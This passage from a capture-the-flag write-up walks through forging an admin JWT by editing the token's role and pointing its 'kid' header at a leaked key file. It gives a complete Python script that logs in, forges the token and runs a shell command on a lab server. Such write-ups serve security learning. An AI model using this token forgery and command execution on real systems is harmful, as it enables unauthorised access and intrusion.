

Notice the role it is showing and also the behaviour of the page. The page is only shown for 20 seconds. After that, you will be automatically logged out.

Opening the source code of the page, you will see a JWT token that is being used as an authentication token when sending the `ls` command to the execute_command.php endpoint.

Goto the [jwt.io](https://jwt.io) to decode the token



In the payload section, the role is `user`. Also, look at the `kid` key in the header section. The `kid` tells the server where to find the secret that is used to sign the token.

We can change the role to `admin` and use the token we downloaded earlier to sign the new token. And we will point to the `188ade1.key` file in the `kid` value.

We will do all that using Python code.

```python

import requests
import re
import jwt

from bs4 import BeautifulSoup

IP = "<IP>"
PORT = "<PORT>"
EMAIL = "<EMAIL>"
HOST = f"{IP}:{PORT}"
JWT_SECRET = <JWT_SECRET> # use the downloaded secret key


dashboard_url = f"http://{IP}:{PORT}/dashboard.php"
login_url = f"http://{IP}:{PORT}/index.php"
command_url = f"http://{IP}:{PORT}/execute_command.php"

common_headers = {
    "Host": HOST,
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Connection": "keep-alive",
}


def exploit_jwt(token):
    
    # Decode JWT without verifying signature (allows payload modification)
    decoded = jwt.decode(token, options={"verify_signature": False})

    # Escalate privileges in payload
    decoded["data"]["role"] = "admin"
    
    # Create a new token with secret and updated payload. Also, update the kid with the correct path
    new_token = jwt.encode(
        decoded,
        JWT_SECRET,
        algorithm="HS256",
        headers = {
            "typ": "JWT",
            "kid": "/var/www/html/188ade1.key"
        }
    )

    return new_token


def login():
   

    headers = common_headers.copy()
    headers['Content-Type'] = "application/x-www-form-urlencoded"
    
    session = requests.Session()

    # Initial request to establish session
    session.get(url=login_url, headers=headers)

    # Perform login
    login_credentials = {
        "email": "EMAIL",
        "password": "PASSWORD"
    }
    response = session.post(url=login_url, data=login_credentials, headers=headers)
        
    if response.status_code == 200 and "dashboard.php" in response.url:

        # Extract the JWT token embedded in <script> tag using regular expression
        soup = BeautifulSoup(response.text, "html.parser")
        scripts = soup.find_all("script")
        html = scripts[2].text
        match = re.search(r"jwtToken\s*=\s*'([^']+)'", html)

        # if JWT token found 
        if match:
            jwt_token = match.group(1)

            # Create a new token which had admin privilege payload
            new_token = exploit_jwt(jwt_token)

            headers["Authorization"] = f"Bearer {new_token}"
            headers["X-Requested-With"] = "XMLHttpRequest"
            headers["Content-Type"] = "application/json"
            
            # Update the cookie with the new token
            cookies = requests.cookies.RequestsCookieJar()
            cookies.set("token", new_token, domain=IP, path="/")
            session.cookies.update(cookies)

            command = {"command": "cat /home/ubuntu/flag.txt"}
            
            # Send authenticated request with forged token and command to execute on target
            command_response = session.post(url=command_url, json=command, headers=headers)

            print(command_response.text)
            
def main():
    login()


if __name__ == "__main__":
    main()
```

If the code runs successfully, you will get the flag.

